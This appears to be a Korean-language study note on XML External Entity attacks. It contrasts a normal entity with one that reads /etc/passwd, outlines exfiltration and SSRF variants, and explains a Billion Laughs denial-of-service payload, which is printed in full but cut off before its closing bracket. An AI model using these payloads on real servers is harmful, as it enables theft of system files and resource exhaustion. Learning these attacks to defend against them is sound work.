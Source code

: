 ```php
		<br>
		<?php echo $doc->testing; ?>
	 </form>
	</body>
</html>
```

## 정상패턴 

다음과 같은 형태가 정상적인 경우다.

DTD에서 foo라는 이름의 엔티티를 정의하였고, XML에서는 foo의 값을 출력하게 하였다. 

```xml
<!DOCTYPE test
[<!ENTITY foo "xml external entity">]>
<test><testing>&foo;</testing></test>
```



## 공격패턴
foo의 값을 `SYSTEM "file:///etc/passwd"` 로 변경하였다. 

```xml
<!DOCTYPE test
[<!ENTITY foo SYSTEM "file:///etc/passwd">]>
<test><testing>&foo;</testing></test>
```


# 공격 패턴

## 파일 참조
- 서버의 중요파일을 참조해서 정보를 빼내는 방법이다.
- 블라인드인 경우에는 OAST 스캔닝 기법으로 외부 서버로 데이터를 보내도록 할 수 있다. 
- 외부서버로의 커넥션을 차단하는 경우는 에러 메세지를 통해서 정보를 빼내는 기법도 있다. 

## SSRF
- SSRF를 악용해서 서버가 백엔드 시스템으로 요청을 보내도록 할 수 있다. 

## Dos (A.K.A Billion Laughs)
- 10억개의 웃음
- 서버의 자원을 소모하는 Dos 공격이다. 
- 다음 페이로드가 XML파서에 의해 수행되면 서버의 메모리를 3기가 바이트 정도 잡아먹는다. 
- 3바이트 문자열 lol 의 참조가 `&lol9;` 부터 시작해서 lol8으로 가면서 10번 참조, lol7로 가면서 또 10번 참조.. 이런식으로 늘어난다. 
- 참조가 트리 구조로 펼쳐지는 것을 상상해보자. 10번의 참조가 9번등장하므로 최종적으로는 10의 9승(10^9)번의 lol문자 (그래서 `Billion Laughs`) 가 메모리에 존재하게 된다. 

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
```